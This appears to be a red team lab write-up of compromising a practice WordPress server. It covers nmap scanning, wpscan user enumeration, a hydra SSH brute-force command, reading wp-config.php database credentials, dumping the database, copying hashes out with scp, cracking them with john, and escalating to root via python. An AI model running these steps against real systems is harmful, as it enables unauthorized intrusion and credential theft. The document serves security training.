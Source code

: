 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below service details:

   ```bash
   $ nmap -Sv 192.168.1.110 
   ```
  ![](./images/2.jpg)

This scan identifies the services below as potential points of entry on Target 1:

  | Service | Version | Port |
  | :- | :- | :- |
  | ssh | Open SSH 6.7p1 | 22/TCP | 
  | http | Apache httpd 2.4.10 | 80/TCP |
  | rpcbind | 2-4 (RPC #100000) | 111/TCP |
  | netbios-ssn| Samba smbd 3.X-4.X | 139/TCP</br >445/TCP|

The following vulnerabilities were identified on Target 1:

  | Vulnerability | Description | Impact |
  | :- |:- | :- |
  | WordPress | Default configuration | allowed user enumeration and password brute force |
  | SSH | Poor/default configuration | gave the attacker remote access|
  | Passwords| Weak/default passwords | granted access to user logins and SQL database|
  | User Permissions | Weak/default permissions | allowed attacker to explore the filesystem and execute commands to exfiltrate data

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

  - `flag1.txt and flag2.txt`
     - **Exploit Wordpress**

      - Use WP scan to enumerate users and vulnerabilities 

      - `wpscan --url 192.168.1.110/wordpress -eu`
      ![](./images/wp1.jpg) 
      ![](./images/wp2.jpg)

    - **Exploit SSH and weak passwords**
    
      - SSH into the target using one of the enumerated user names

      - I was able to guess Michael's password with only two tries. If I had failed after a few other common passwords I would have resorted to a brute force attack to gain a password. If I had to use a brute force attack I could have used `hydra`

      - `hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 -t 4 ssh`
      ![](./images/ssh_michael.png)

    - **Exploit user prmissions**

      - Because user access to the wordpress folders were unrestricted I was able to do a simple search for flags

      - `grep --color=auto -r flag[1-4] /var/www`
      ![](./images/grepflags1-2.png)



    - **Exploit user permissions**
      
      - Let's see what else we can find in Wordpress's folder structure. A configuration file might give us some hints at what else we can access easily

      - I used `cat` and tab autocomplete to quickly see what was in each folder before deciding which folders to "move" into.

        - `cat /var/www/html/wordpress/wp-config.php`
        ![](./images/sql-login.png)

      - We have a database with a user and password, lets see whats inside by dumping the data base. This can be done with `mysqldump` or `mysql`. I prefer `mysqldump` because the output can be manipulated with stream editors. 

      - `mysqldump -u root -p --skip-extended-insert wordpress | grep --color=auto flag[3-4]`
      ![](./images/sql_dump_flags.png)


    - Looks like we got a 2 for 1 bonus! we have achieved our goal with only use of  `nmap`, `wpscan`, `ssh`, `cat`, `grep` and `mysqldump`. 
    
  - Users via mysql search

    - Users and passwords via mysql database


        - We do a search through the database as follows:

        ![](./images/sql2.png)
        ![](./images/sql3.png)
        ![](./images/sql4.png)

        - The following command is a nice way to export information out of tables and into a file without the use of any other tools
        ![](./images/sql5.png)

      - Crack password hashes with `john`.

        - If you extracted the usernames and hashes with `mysql` then you can move the new file to the Kali machine via `scp`
          - `scp michael@192.168.1.110:/home/michael/wp_hashes.txt ./`
        
        - Next use `john` to crack the passwords
          - `john wp_hashes.txt`
         ![](./images/10.jpg)

        - steven's password is **pink84**


    - Gain Root

      
      - Through Steven

        - After finding Stevens login we can SSH into the machine with his credentials. 

        - We can see that Steven does not have a full shell to utilize but he does have python permissions.
        ![](./images/ssh_steven.png)

        - We can use python to start a shell, and if we do it with root privileges we will be escalated to root in the newly spawned shell
        ![](./images/steven_python.png)

        - ![](./images/13.jpg)


